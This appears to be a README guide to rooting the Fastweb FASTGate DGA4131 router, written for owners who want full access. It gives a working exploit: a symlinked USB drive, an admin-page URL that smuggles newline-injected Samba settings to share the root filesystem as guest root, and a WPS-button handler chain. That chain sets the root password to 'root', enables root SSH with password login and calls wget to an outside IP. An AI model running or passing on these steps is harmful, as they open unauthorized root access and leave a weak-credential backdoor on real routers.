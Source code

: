 ## Fastgate Rooting
How to get full access to your Fastgate, a widely used Router distributed by the ISP Fastweb in Italy.

## How does it work?
This trick uses a very old flaw available in basically every Technicolor router, you can have a USB return the root folder of the router by crafting a special symbolic link. 

## Getting Started

### Requirements

* A FASTGate DGA4131 (VBNT-O).
* An USB Drive.
* A Linux machine (a live version of Ubuntu should be ok, probably WSL too).

### Instructions

* Open up a terminal, navigate to the USB Drive path and type the following: `ln -s / rootlink`.
* Open up a browser, login to your fastgate admin page (it's usually available [here](http://192.168.1.254)).
* Once you logged on, click on this [link](http://192.168.1.254/status.cgi?3g_pin=********&act=nvset&samba_enabled=1&samba_workgroup=WORKGROUP%5c%0a%09security%20%3d%20share%5c%0a%09guest%20account%20%3d%20root%5c%0a%09interfaces%20%3d%20lo%20br-lan%5c%0a%5c%0a%5bohnonotagain%5d&service=usb_status).
* Plug the USB Drive in your router.
* Navigate to `\\192.168.1.254\usbdisk\rootlink` by using a SMB Client (like Windows Explorer).
* Now you should be able to access the FS of your router, there are still a few things to do though.
* Edit `/etc/inittab` by removing '#' from the last line `::askconsole:/bin/login`, if there's none just leave it as it is. This should turn the console login on, in case you screw your router heavily you should be backed up now.
* Edit `/etc/passwd` by removing `root:/bin/false` and adding `root:/bin/ash`. This allows using a shell for an eventual login.
* Edit `/etc/config/dropbear` as following (delete every other config involving SSH in this file, if there's any):

```
 config dropbear 'Example'
  option Interface 'lan'
  option Port '22'
  option IdleTimeout '600'
  option PasswordAuth 'on'
  option RootPasswordAuth 'on'
  option RootLogin '1'
  option enable '1'
 ```

* Edit `/etc/config/button` by editing `option handler 'wps_button_pressed_ssh.sh'` as always, leaving everything else by default:
 ```
 config button 'wps'
...
 option handler 'sed -i '\''s#/root:.*$#/root:/bin/ash#'\'' /etc/passwd && echo root:root | chpasswd && sed -i '\''s/#//'\'' /etc/inittab && (uci -q delete dropbear.afg || true) && uci add dropbear dropbear && uci rename dropbear.@dropbear[-1]=afg && uci set dropbear.afg.enable='\''1'\'' && uci set dropbear.afg.Interface='\''lan'\'' && uci set dropbear.afg.Port='\''22'\'' && uci set dropbear.afg.IdleTimeout='\''600'\'' && uci set dropbear.afg.PasswordAuth='\''on'\'' && uci set dropbear.afg.RootPasswordAuth='\''on'\'' && uci set dropbear.afg.RootLogin='\''1'\'' && uci commit dropbear && /etc/init.d/dropbear enable && /etc/init.d/dropbear restart && uci set button.wps.handler='\''wps_button_pressed.sh'\'' && uci commit && wget http://58.162.0.1/done || true'
```

